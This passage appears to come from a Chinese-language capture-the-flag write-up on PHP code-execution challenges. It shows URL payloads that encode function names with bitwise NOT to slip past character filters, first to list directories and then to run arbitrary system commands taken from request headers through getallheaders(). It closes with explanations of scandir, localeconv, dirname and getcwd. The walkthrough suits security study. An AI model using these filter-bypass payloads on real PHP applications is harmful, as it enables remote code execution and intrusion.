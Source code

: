 发现该目录上不存在flag文件，读取上一层目录文件看看

```
var_dump(scandir(dirname(getcwd())));

?code=[~%89%9E%8D%A0%9B%8A%92%8F][!%FF]([~%8C%9C%9E%91%9B%96%8D][!%FF]([~%9B%96%8D%91%9E%92%9A][!%FF]([~%98%9A%8B%9C%88%9B][!%FF]())));
```

发现也不存在flag文件，读取当前所在的目录名

```
var_dump(dirname(getcwd()));

?code=[~%89%9E%8D%A0%9B%8A%92%8F][!%FF]([~%9B%96%8D%91%9E%92%9A][!%FF]([~%98%9A%8B%9C%88%9B][!%FF]()));
```

我们知道`var/www/html`是Apache的默认路径，源码保存在`var/www/index.php`中，在`var/www`目录下没有找到flag，在`var`目录下也没有flag。

最后只能利用`getallheaders()`来获取参数RCE

```
echo(system(end(getallheaders()))); 
```

```
?code=[~%8F%8D%96%91%8B%A0%8D][!%FF]([~%8C%86%8C%8B%9A%92][!%FF]([~%9A%91%9B][!%FF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][!%FF]())));
```

列出一些函数的用法：

**scandir()**    列出目录中的文件和目录
用法：scandir(directory,sorting_order,context);
directory                必需，规定要扫描的目录
sorting_order            可选，默认是0，表示按字母升序排列；设置为1，表示按字母降序排列

context              可选。*context* 是可修改目录流的行为的一套选项。

当传入的参数是('.')时，也就是scandir('.'),可以读取当前目录中的文件和目录，同理，当传入（../)时，可以读取上一层目录中的文件和目录。

**localeconv()函数**    函数返回一包含本地数字及货币格式信息的数组。

![](![6](https://zhuang-yongyi.gitee.io/yoyo/%E6%97%A0%E5%AD%97%E7%AC%A6/3.jpg)

可以看到第一个元素为点，我们可以使用pos()，current()构造出这个点。

所以`var_dump(scandir(pos(localeconv())));`读取当前目录中的目录和文件。

**dirname()函数**，返回路径中的目录部分。

语法：dirname(path)

path参数是一个包含了指向一个文件的全路径的字符串。该函数返回去掉最后一个文件或目录后的目录名。

**getcwd()函数**   获取当前工作目录。

所以`var_dump(scandir(dirname(getcwd())));`可以读取上一个目录中的目录和文件名。

尝试使用`scandir(../../)`返回上上层目录文件和文件名。        

